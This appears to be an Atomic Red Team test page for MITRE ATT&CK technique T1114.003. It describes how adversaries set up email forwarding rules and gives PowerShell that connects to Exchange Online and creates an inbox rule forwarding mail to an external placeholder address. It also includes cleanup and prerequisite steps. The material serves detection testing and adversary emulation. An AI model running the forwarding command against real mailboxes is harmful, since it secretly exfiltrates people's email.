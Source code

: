 # T1114.003 - Email Collection: Email Forwarding Rule
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)
<blockquote>Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email-forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)


<br/>

## Atomic Test #1 - Office365 - Email Forwarding
Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365


**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | String | |
| password | office-365 password | String | |
| rule_name | email rule name | String | Atomic Red Team Email Rule|
| forwarding_email | destination email addresses | String | Atomic_Operator@fakeemail.aq|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "{#forwarding_email}"
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```




<br/>
